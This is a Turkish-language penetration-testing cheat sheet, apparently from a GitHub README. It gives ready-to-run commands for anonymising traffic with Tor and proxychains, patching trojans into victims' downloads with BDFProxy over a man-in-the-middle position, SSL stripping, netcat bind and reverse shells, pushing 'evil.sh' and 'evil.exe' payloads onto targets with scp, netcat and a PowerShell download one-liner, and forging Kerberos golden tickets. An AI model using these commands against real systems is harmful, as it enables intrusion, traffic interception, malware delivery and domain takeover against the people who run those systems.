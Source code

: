 ### VPN

    1.  Mozilla Firefox tarayıcıda Vpn kullanımı için web tarayıcı adres kısmına “about:config” gir.  
    “media.peerconnection.enable” -> false yap.  (Gerçek ip adresinin vpn kullanımında bazı yerlerde geçmesini engeller.)  
    Vpnbook ‘a gir. Openvpn sekmesinden indirilen vpn dosyasını “unzip” ile çıkar. “openvpn açılacakportadı.ovpn” (Yükleme yaparken tarayıcı pencereleri kapat)
    2.  Opera tarayıcı içinde Vpn var.
    3.  www.dnsleaktest.com -> Hangi ülke ip’sinde olduğunu görme. Gerçek ip mizi bulunabilir mi test eder.  
     

### TOR Browser
  
    Kaliye Tor Kurma;  
    “apt-get install tor -y”  
    “apt-get install proxychains”  
    leafpad /etc/proxychains.conf  
    #dynamic\_chain    //# işaretini sil
    #strict\_chain        //# işareti ekle
    En alttaki socks4 -> socks5 yap. Kaydet
    Tarayıcıda : proxy ayarları -> manuel ayarları seç. socks host : 127.0.0.1  port: 9050 gir  
    Tor ağını başlat    =>    “service tor start”  
    \*\*Siteden girilen ip adresi değişti. Komut satırında ise hala eski ip mevcut. Onunda değişmesi için;  
    “proxychains curl icanhazip.com”    => Yazacağın her komutun başına proxychains yaz, ip gizlenir.

### BDF (Backdoor Factory) Proxy
    Hedef birşey indirmek istediğinde biz trojanımızı o dosyanın içine yamalıyoruz. Bunun için;  
    1-    Aynı ağda olmak  
    2-    Man in the middle olmak  
    3-    BDF Proxy ayarlarını yapmak gerekir.

    “leafpad /etc/bdfproxy/ bdfproxy.cfg”  
    1-    proxy mode = transparent  
    2-    Hedef işletim sistemi neyse ordaki host ip yerine kendi ip mizi yazıyoruz.  
    “ip tables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080”  
    (80’den gelen bağlantıyı 8080’e yönlendir)  
    “bdfproxy” yaz. Saldırıyı başlat.  
    MITM saldırısını başlat. Dinleme modu için;  
    “msfconsole -r /usr/share/bdfproxy/.... .rc (bdfproxy nin dinlediği dosya yolu)  

### SSL Strip Çalıştırma (Https’i Http’ye Çevirme)  
    “ip tables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000”

    “sslstrip”  
  
### BIND SHELL , REVERSE SHELL

#### BIND SHELL  
    Hedef üzerinde komut çalıştırılır. Gelen istekleri onaylayacak port açar. Biz hedefteki açılan porta istek göndeririz. Hedef isteği kabul eder.  
    Örnek;  
    Saldırgan makine    : nc -vvn hedef ip port  
    Hedef makine        :nc.exe -lvp port -e cmd.exe  //Önceden dosyanın o pc de olması gerekir  

#### REVERSE SHELL  
    Hedef üzerinde komut çalıştırılır. Hedeften bize bağlantı isteği gelir. Biz dinleme modunda bekleriz ve gelen isteği kabul ederiz.  
    Örnek;  
    Saldırgan makine    : nc -lvp port  
    Hedef makine        :nc.exe -vvn saldırgan\_ip port -e cmd.exe  //Bağlantıdan sonra cmd.exe çalışır.  
    
    \*\*\*Düzgün bir shell almak için;  
    python -c ‘import pty;pty.spawn(“/bin/bash”)’

### Uzaktan Bağlantı Kurmak (Windows)  
    winexe  
    winexe --user=Administrator%Parola ||hedef ip “cmd”    //Hedef komut satırına ulaşma  
    psexec

### NETCAT  
    Sistemler arası iletişim kurmayı sağlar.  
    Netcat ile TCP port tarama:  
    nc -nvv -z 192.168.1.100 1-50  //port aralığını tarar.  
    Netcat ile shell alma:  
    1\. Dinleme için    =>    nc -lvp 4444  
    2\. Komut    =>    nc -e /bin/sh kendi ipmiz 4444  
      
### NETSTAT  
    Bilgisayarın gelen ve giden bağlantılarını, bu bağlantılara neden olan programları, pid numaralarını veren bir komuttur.  
    cmd =>  “netstat -anob”    daha detaylı =>  “netstat -anobf”  
   
    Kapatmak istediğin pid no varsa;  
    cmd => “taskkill /F /PID 2715”  
    
    Görev yöneticisinde çalışan programları komut satırında görmek için;  
    cmd =>    “tasklist”  yada  “tasklist /fi “PID EQ 2715”   //sadece o pıd numarasında çalışanı getirir  
    
    Hangi portların dinlendiğini görme;  
    cmd =>    “netstat -antp”  
    a:    all  
    t:    tcp bağlantıları getirir  
    u:    udp bağlantıları getirir  
    p:    pid hangi uygulamayı kullanıyor

### STEGANOGRAFI  
#### steghide  
    Resim içine veri saklama, içindeki veriyi okuma yada dışarı çıkarmaya yarar.  

    Veri saklamak için;  
    steghide --embed -ef (saklanacak veri) -cf (içine gömülecek dosya) -p (parola) -sf (oluşturulacak dosya adı) -e (şifreleme metodu) -z (sıkıştırma derecesi) -v (verbose)  
    
    Kontrol için;  
    steghide --info (kontrol edilecek dosya) -p (parola)  

    Veriyi açmak için;  
    steghide --extract -sf (şifrelenmiş dosya) -p (parola) -xf (oluşturulacak dosya adı)  

    Diğer Araçlar:
    Open Stego  // Java destekli ortamlarda çalışır  
    Invisible Secret 4  
    Puffer 4.04  
    Xiao Steganography 2.61  
    S-Tools

### Damgalama (Watermarking)  
    Bir dosyanın telif hakkını sağlayabilmek için o dosyanın içine gömme işlemine watermarking denir.  
    
    binwalk  
    Bir dosya içinde gömülü başka dosya olup olmadığını görürüz.

### Hedef Sisteme Dosya Atma  
    wget  
    “wget dosya yolu url adresi”

### scp  
    “scp dosya yolu  kullanıcı adı@hedef ip:/tmp/”  
    Örnek:    scp /var/www/html/evil.sh  msfadmin@192.168.1.10:/tmp/
 
    Hedefte netcat yüklüyse;  
    “nc -lvp 4444 >evil.sh.2”    => Hedefte dinlemeye aldık. Gelen dosyayı evil.sh.2 olarak kaydet.  
    kendi pc mizde;  
    “nc 192.168.1.12 4444 \<evil.sh

### powershell  
    1.    Apache servisi çalışıyor olacak  
    2.    İlgili dosya apache dizininde olacak  
    “powershell.exe (New-Object System.Net.WebClient).Download.File(‘http://ip\_adresi/evil.exe’,’C:\\Users\\Default\\evil.exe’)”

### Load Balance Detector  
    Kali üzerinde “lbd” aracı ile hedefte yük dengeleyici olup olmadığını tespit ederiz. Özellikle Ddos saldırılarındaki yükü dengelemek için kullanılan bir güvenlik sistemidir.  
    “lbd site adı”

### Mobil (Android) Güvenliği

    Kullanılan araçlar: 
    apktool , jadx = apk yada ipa uzantılı dosyaların içeriğindeki kodları okumaya yarar.  
    AndrodBugs     = otomatik analizler gerçekleştirir, uygulamanın kullandığı güvenlik önlemlerini gösterir.  

    Sanal Android Uygulama = Android studio , Genymotion, Android x86 ( Fiziksel cihaz yerine sanal android oluşturma)  

    Taşınabilir Android Pentest Aracı = Appie (Windows)  

    Yapman gereken işlemler:
    1    Apk kurmadan önce nelere karşı önlem alınmış onları bilmek gerekir.  
    2    Normal kullanıcı gibi apk yı yükle ve nasıl çalıştığını anlamak için kurcala.  
    3    Uygulamanın yaptığı işlemleri izlemek için wireshake ve burp aracı ile network ve veri trafiği izlenebilir.  
    4    Depolama alanları ve uygulama loglarının incelenmesi

  
### FTP   
    Wireshark ile FTP üzerinden aktarılan verinin dışarıya kayıt edilebilmesi için,  
    •    ftp-data filtresinden faydalanabilirsiniz.  
    •    RAW olarak kayıt etmeniz gerekmektedir.  
    Adb Shell ile telefona bağlantı yapılabilir.

### GOLDEN TICKET  
    Kerberos golden ticket oluşturma  
    run post/Windows/escalate/golden\_ticket   
    “golden\_ticket\_create -h”  
    \-d = domain tam adı  
    \-g = grup yetki numaraları  
    \-i = grup kullanıcı id si  
    \-k = ntlm hashi kerberos  
    \-s = domain sid değeri  
    \-u = kullanıcı adı  
    \-t = nereye kaydedileceği  
    Sid bulma = wmic useraccount get name, sid  
    Kerberos\_ticket\_use    / ticket yolu  
    Kerberos\_ticket\_list
